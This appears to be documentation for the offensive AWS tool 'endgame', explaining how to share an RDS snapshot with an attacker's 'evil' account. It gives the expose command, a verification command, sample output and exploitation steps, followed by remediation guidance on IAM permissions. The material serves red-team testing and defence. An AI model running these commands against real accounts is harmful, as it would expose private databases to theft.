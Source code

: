 # RDS Snapshots

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service rds --name test-resource-exposure
```


* To view a list of the AWS Accounts that have access to the RDS DB Snapshot, run the following command from the victim account:

```bash
aws rds describe-db-snapshot-attributes \
    --db-snapshot-identifier test-resource-exposure
```


## Example

* Observe that the account ID of the evil principal (`999988887777`) is listed alongside the AttributeName called `restore`. This means that the evil account ID is able to restore the snapshot of the RDS database in their own account.

```json
{
    "DBSnapshotAttributesResult": {
        "DBSnapshotIdentifier": "test-resource-exposure",
        "DBSnapshotAttributes": [
            {
                "AttributeName": "restore",
                "AttributeValues": [
                    "999988887777"
                ]
            }
        ]
    }
}
```

## Exploitation

After the RDS snapshot is public or shared with the rogue user account, an attacker can then:
* [copy the snapshot](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/USER_CopySnapshot.html#USER_CopyDBSnapshot)
* [Restore a DB Instance from the DB Snapshot](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/CHAP_Tutorials.RestoringFromSnapshot.html)
* Browse the contents of the database, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that RDS Snapshots are only shared with trusted accounts, and that the trusted accounts truly need access to the RDS Snapshots.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your RDS Snapshots**: Tightly control access to the following IAM actions:
  - [rds:DescribeDbClusterSnapshotAttributes](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBClusterSnapshotAttributes.html): _Grants permission to return a list of DB cluster snapshot attribute names and values for a manual DB cluster snapshot. This includes information on which AWS Accounts have access to the snapshot._
  - [rds:DescribeDbClusterSnapshots](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBClusterSnapshots.html): _Grants permission to return information about DB cluster snapshots._
  - [rds:DescribeDbSnapshotAttributes](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBSnapshotAttributes.html): _Grants permission to return a list of DB snapshot attribute names and values for a manual DB snapshot. This includes information on which AWS Accounts have access to the snapshot._
  - [rds:DescribeDbSnapshots](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBSnapshots.html): _Grants permission to return information about DB snapshots_
  - [rds:ModifyDbSnapshotAttribute](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_ModifyDBSnapshotAttribute.html): _Grants permission to add an attribute and values to, or removes an attribute and values from, a manual DB snapshot. This includes the ability to share snapshots with other AWS Accounts._
  - [rds:ModifyDbClusterSnapshotAttribute](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_ModifyDBClusterSnapshotAttribute.html): _Grants permission to add an attribute and values to, or removes an attribute and values from, a manual DB cluster snapshot. This includes the ability to share snapshots with other AWS Accounts._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

- [aws rds modify-db-cluster-snapshot-attribute](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-cluster-snapshot-attribute.html)
- [aws rds modify-db-snapshot-attribute](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-snapshot-attribute.html)
- [aws rds describe-db-snapshot-attributes](https://docs.aws.amazon.com/cli/latest/reference/rds/describe-db-snapshot-attributes.html)
